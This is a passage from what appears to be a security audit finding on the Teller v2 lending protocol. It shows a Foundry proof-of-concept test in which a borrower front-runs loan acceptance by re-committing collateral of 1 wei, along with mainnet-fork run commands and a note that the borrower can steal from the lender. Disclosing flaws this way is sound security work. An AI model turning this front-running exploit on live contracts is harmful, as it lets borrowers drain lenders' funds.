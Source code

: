 ```solidity
            _APR,
            "abc", // random metadata uri irrelevant
            bidder
        );
        require(collateralManager.commitCollateral(bidId, _collateralInfo));

        // Bidder sees that lender decided to accept a loan and frontruns his transactions with 
        // a new commitColalteral transaction with only 1 wei of collateral. This will overwrite
        // the old value in the collateralInfo
        // explained in more detail in the writeup of the bug
        _collateralInfo._amount = 1;
        collateralManager.commitCollateral(
            bidId,
            _collateralInfo
        );
        vm.stopPrank();

        // Lender accepts bid
        vm.startPrank(lender);
        teller.lenderAcceptBid(bidId);

        // Get balances after for bidder
        uint256 balance_weth_bidder_after = weth.balanceOf(bidder);
        uint256 balance_usdc_bidder_after = usdc.balanceOf(bidder);

        // By looking at the balances we can see that bidder tricked the lender into accepting
        // a loan with 1 wei worth of collateral. This is because the collateralInfo was overwritten by the
        // second commitCollateral transaction
        console.log("------------- BEFORE --------------");
        console.log("%s: %s", "balance_weth_bidder_before", balance_weth_bidder_before);
        console.log("%s: %s", "balance_usdc_bidder_before", balance_usdc_bidder_before);
        console.log("------------- AFTER --------------");
        console.log("%s: %s", "balance_weth_bidder_after", balance_weth_bidder_after);
        console.log("%s: %s", "balance_usdc_bidder_after", balance_usdc_bidder_after);

        console.log("%s: %s", "amount weth spent as collateral", balance_weth_bidder_before - balance_weth_bidder_after);
    }
}
```

Navigate to /teller-protocol-v2/packages/contracts
Run it with ( replace MAINNET_RPC with your web3 provider that has a state from the block number 17101224 )
> forge test --match-contract TellerV2CommitCollateralBug -vv --fork-url MAINNET_RPC --fork-block-number 17101224

Note that the block number chosen was because I was using an approved borrower from the mainnet. The borrower has more than 0.001 WETH (used in the submitBid) in block 17101224. It can also work on other blocks if the borrower still has more than that amount of WETH.
## Impact
The borrower can steal money from the lender
## Code Snippet
https://github.com/sherlock-audit/2023-03-teller/blob/9ba2598c2f386e9138cacc11a31b1b193cfd7aa3/teller-protocol-v2/packages/contracts/contracts/CollateralManager.sol#L138-L147
